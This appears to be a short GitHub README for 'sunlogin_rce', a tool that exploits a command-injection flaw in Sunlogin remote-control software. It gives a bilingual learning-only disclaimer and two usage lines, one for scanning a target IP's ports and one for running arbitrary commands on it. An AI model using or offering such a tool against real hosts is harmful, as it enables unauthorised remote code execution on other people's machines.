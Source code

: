 # sunlogin_rce
# 免责声明
仅供学习交流，未经作者许可不得转载
任何因传播和使用本工具而造成的直接或间接后果和损失均由用户自行承担，作者对此不承担任何责任。
# Disclaimer
It is only for learning and communication, and cannot be reproduced without the permission of the author
Any direct or indirect consequences and losses caused by the dissemination and use of this tool are the responsibility of the user, and the author does not assume any responsibility for this.

#向日葵 命令注入（rce）利用
sunlogin_rce.exe -H ip 扫描存在的端口
sunlogin_rce.exe -H ip -P rce 端口 -C 执行命令
